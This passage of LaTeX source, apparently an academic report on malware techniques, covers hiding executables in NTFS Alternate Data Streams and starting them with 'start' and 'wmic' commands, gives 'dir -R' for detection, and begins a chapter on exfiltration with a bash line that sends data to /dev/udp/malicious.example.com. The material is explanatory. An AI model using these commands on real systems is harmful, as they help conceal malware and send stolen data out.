 Execution:
\begin{tcblisting}{listing only}
    start c:\Windows{}\calc.exe:malware.exe" 
    wmic process call create '"c:\Windows{}\calc.exe:malware.exe"'
\end{tcblisting}
\citep{ADScommands}

Start previously worked, and is now blocked, however wmic still works.


Detection:
\begin{tcblisting}{listing only}
dir -R
\end{tcblisting}

A positive us of ADS comes in the automated scanning of files - often in the ADS in case of malicious payload injection. This is particularly prevalent with downloaded files, the origin of the file is stored in the ADS by the browser.
This lets security software have an extra conditionals to check for to aid detection upon periodic scan or execution. \citep{ADSUse} There is a compressed version of ADS that are difficult to spot to due



\chapter{Malware Mechanisms - Exfiltration}
Modern malware are often not static, it changes and morphs based on remote command. For this to work, there must be some form of communication from victim to attacker. As discussed above, their is usually a side channel for this.
In C2 structures, it is often advantageous for communications to be covert and unreadable, as to not create a breadcrumb trail back. 

Data can be pushed over the network, usually in the form of UDP or TCP traffic. 

\begin{lstlisting}[label=UDPPackets,caption=UDP over Bash]
    echo "d15304958943bc2190ab10bbca29a6c0171e5af4347d3c4a4
    855bc048efbbd97192a46baaecbbac55073b72766c25faf90da1c5f
    386dc1201451b6e5576798a24399885112ff1684fa4ac31a1161d72
    ad66f44ebbaebd05e727f362e15f30315" > /dev/udp/malicious.example.com/80
\end{lstlisting}

